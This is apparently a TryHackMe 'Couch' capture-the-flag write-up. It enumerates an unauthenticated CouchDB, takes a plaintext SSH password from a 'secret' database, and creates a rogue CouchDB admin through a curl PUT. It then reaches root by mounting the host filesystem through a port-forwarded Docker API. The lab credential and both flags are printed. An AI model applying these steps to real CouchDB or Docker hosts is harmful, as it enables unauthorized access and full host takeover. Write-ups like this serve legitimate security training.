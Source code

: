 > Couch

# Nmap

nmap -sC -sV -Pn -A -vv -p- -oN nmap/initial $IP

```bash
22/tcp   open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
5984/tcp open  http    syn-ack CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-favicon: Unknown favicon MD5: 2AB2AAE806E8393B70970B2EAACE82E0
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Enumerating CouchDB

curl http://$IP:5984

```json
{"couchdb":"Welcome","uuid":"ef680bb740692240059420b2c17db8f3","version":"1.6.1","vendor":{"version":"16.04","name":"Ubuntu"}}
```

We can post a GET request to some endpoints and get results.

# Listing all DBs

```bash
curl -X GET http://$IP:5984/_all_dbs
```

```json
["_replicator","_users","couch","secret","test_suite_db","test_suite_db2"]
```

What is this `secret` db? 

curl http://$IP:5984/secret 

**Investigating database**

```json
{"db_name":"secret","doc_count":1,"doc_del_count":0,"update_seq":2,"purge_seq":0,"compact_running":false,"disk_size":8287,"data_size":339,"instance_start_time":"1625314873403152","disk_format_version":6,"committed_update_seq":2}
```

**Document Listing**

```bash
curl -X GET http://$IP:5984/secret/_all_docs
```

```json
{"total_rows":1,"offset":0,"rows":[
{"id":"a1320dd69fb4570d0a3d26df4e000be7","key":"a1320dd69fb4570d0a3d26df4e000be7","value":{"rev":"2-57b28bd986d343cacd9cb3fca0b20c46"}}
]}
```

**Read Contents**

curl -X GET http://$IP:5984/secret/a1320dd69fb4570d0a3d26df4e000be7

```json
{"_id":"a1320dd69fb4570d0a3d26df4e000be7","_rev":"2-57b28bd986d343cacd9cb3fca0b20c46","passwordbackup":"atena:t4qfzcc4qN##"}
```

We got a password and I tried it for SSH! Wow! Yep! We are in as atena.

# user.txt

```
THM{1ns3cure_couchdb}
```

I actually created an admin in couchdb.

```bash
curl -X PUT -d '{"type":"user","name":"hacktricks","roles":["_admin"],"roles":[],"password":"hacktricks"}' $IP:5984/_users/org.couchdb.user:hacktricks -H "Content-Type:application/json"
```

# Privilege Escalation

Running Linpeas I found .bash_hostiry file's content. 

```bash
nano root.txt
exit
sudo deluser USERNAME sudo
sudo deluser atena sudo
exit
sudo -s
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
```

Looks like we have docker and a image named alpine. So I followed Hacktricks and got a payload.

```bash
docker run -it -v /:/host/ alpine chroot /host/ bash
docker: Got permission denied while trying to connect to the Docker daemon socket at unix:///var/run/docker.sock: Post http://%2Fvar%2Frun%2Fdocker.sock/v1.39/containers/create: dial unix /var/run/docker.sock: connect: permission denied.
See 'docker run --help'.
```

But permission denied. So let's port forward to our system.

ssh atena@$IP -L 2375:127.0.0.1:2375

Now we can access docker in our localhost:2375.

```bash
export DOCKER_HOST="tcp://127.0.0.1:2375"
docker run -it -v /:/host/ alpine chroot /host/ bash
```

And we are root!

# root.txt

```
THM{RCE_us1ng_Docker_API}
```